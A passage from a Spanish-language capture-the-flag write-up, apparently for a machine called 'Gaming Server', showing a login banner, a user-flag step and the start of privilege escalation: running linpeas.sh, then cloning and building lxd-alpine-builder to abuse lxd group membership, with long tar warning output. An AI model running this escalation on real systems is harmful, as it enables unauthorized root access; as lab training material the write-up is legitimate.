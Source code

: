 ```bash

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Apr 12 01:48:37 2022 from 10.9.0.50
```

- Bandera de usuario:

![Untitled](Gaming%20Ser%2071c53/Untitled%206.png)

---

## 4. Escalada de privilegios

- Compartimos “linpeas.sh” y lo ejecutamos, después de revisar las posibles vías para escalar privilegios, la única que funcionó fue “lxd”:

![Untitled](Gaming%20Ser%2071c53/Untitled%207.png)

- En la máquina atacante clonamos el siguiente repositorio:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
```

![Untitled](Gaming%20Ser%2071c53/Untitled%208.png)

- Con el siguiente comando creamos el ejecutable del exploit:

```bash
cd lxd-alpine-builder
```

```bash
./build-alpine 
Determining the latest release... v3.15
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.15/main/x86_64
Downloading alpine-keys-2.4-r1.apk
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
tar: Se desestima la palabra clave de la cabecera extendida desconocida 'APK-TOOLS.checksum.SHA1'
```